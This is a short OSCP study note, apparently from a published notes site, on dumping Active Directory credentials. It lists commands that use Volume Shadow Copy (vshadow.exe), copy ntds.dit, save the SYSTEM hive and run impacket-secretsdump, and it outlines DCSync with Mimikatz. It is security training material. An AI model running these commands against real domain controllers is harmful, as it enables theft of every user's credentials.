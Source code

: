 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/o. Active Directory Movement/8. Shadow Copies/"}
---
```


------------------------
- Shadow Copy, a.k.a. Volume Shadow Service (VSS), is a Microsoft backup technology that allows for creation of snapshots of files and volumes.
- Managed through vshadow.exe.
- As a domain admin one can extract the AD NTDS.dit database file and extract credentials offline.

### Extract ntds.dit AD Database:
1. As domain admin in elevated Powershell run:
```
vshadow.exe -nw -p  C:
```
2. Copy the extracted file to root folder:
```
copy <shadow-copy-device-name>\windows\ntds\ntds.dit c:\ntds.dit.bak
```
3. Save the SYSTEM hive from windows registry:
```
reg.exe save hklm\system c:\system.bak
```
4. Move the two files to Kali and use Impacket to extract credentials:
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### Alternative OpSec Method:
1. Compromise DC.
2. Get Mimikatz to machine.
3. Dump hashes for all users individually through DCSync attacks.